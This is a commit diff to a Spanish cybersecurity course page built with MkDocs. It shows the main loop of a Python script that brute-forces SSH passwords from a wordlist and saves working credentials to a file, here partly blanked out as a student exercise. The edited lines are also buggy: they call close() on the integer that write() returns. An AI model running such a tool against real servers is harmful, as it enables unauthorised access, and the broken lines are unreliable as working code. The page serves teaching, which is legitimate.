

Before and after one commit to raul-profesor/Python-ciber, an MkDocs documentation site: the page built from docs/SSH_brute.md, in a window 1280 px wide and 1400 px high, scrolled down 1901 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3221 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Práctica de SSH arregladita

````diff
--- a/docs/SSH_brute.md
+++ b/docs/SSH_brute.md
@@ -98,19 +98,21 @@ if __name__ == "__main__":
     parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
     parser.add_argument("-u", "--user", help="Host username.")
 
-    # parse passed arguments
+    # parseamos los argumentos que se nos han pasado
     args = parser.parse_args()
-    host = args.host
-    passlist = args.passlist
-    user = args.user
-    # read the file
-    passlist = open(passlist).read().splitlines()
-    # brute-force
+    host = args._______
+    passlist = args._______
+    user = args._______
+    # leer el fichero
+    passlist = open(_______).read().splitlines()
+    # fuerza bruta
     for password in passlist:
         if is_ssh_open(host, user, password):
-            # if combo is valid, save it to a file
-            open("credentials.txt", "w").write(f"{user}@{host}:{password}")
+            global credenciales
+            # Si la combinación es válida, la guardamos en un archivo
+            credenciales = open("credentials.txt", "w").write(f"{user}@{host}:{password}")
             break
+    credenciales.close()
 ```
 Básicamente *parseamos* los argumentos para obtener el nombre de host, el nombre de usuario y el fichero con el listado de contraseñas sobre las que iteraremos.
 
@@ -120,3 +122,5 @@ Básicamente *parseamos* los argumentos para obtener el nombre de host, el nombr
 [socket — Comunicación en red](https://rico-schmidt.name/pymotw-3/socket/index.html)
 
 [HOW TO - Programación con sockets](https://docs.python.org/es/3/howto/sockets.html)
+
+[How to Brute-Force SSH Servers in Python](https://www.thepythoncode.com/article/brute-force-ssh-servers-using-paramiko-in-python)
````
Also changed, not shown: other parts of docs/SSH_brute.md (+2 -2 lines), docs/SQLi.md (+3 -1 lines).
